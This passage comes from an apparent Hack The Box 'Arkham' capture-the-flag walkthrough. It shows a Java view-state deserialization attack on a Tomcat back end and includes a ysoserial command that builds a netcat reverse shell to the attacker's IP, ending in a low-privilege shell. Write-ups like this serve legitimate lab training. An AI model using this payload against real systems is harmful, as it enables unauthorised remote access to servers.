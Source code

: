Next, we copy the `base64`-encoded string and put it into the view state parameter for the Tomcat back-end to deserialize it.

<a class="image-popup">
![a6849087.png](/assets/images/posts/arkham-htb-walkthrough/a6849087.png)
</a>

I think we achieved remote command execution! Our next payload will be to run a reverse shell back to us.

```
# java -jar ysoserial.jar CommonsCollections6 'nc.exe 10.10.12.32 1234 -e cmd' > payload
```

Here's the `base64`-encoded payload.

<a class="image-popup">
![fb9a0e79.png](/assets/images/posts/arkham-htb-walkthrough/fb9a0e79.png)
</a>

Let's do the same thing: replace with the original view state with our own.

<a class="image-popup">
![88ba8e22.png](/assets/images/posts/arkham-htb-walkthrough/88ba8e22.png)
</a>

And we have ourselves a low-privilege shell! We can also enter into a PowerShell session.

The `user.txt` is in `Alfred`'s desktop.

<a class="image-popup">
![0e9b0819.png](/assets/images/posts/arkham-htb-walkthrough/0e9b0819.png)
</a>
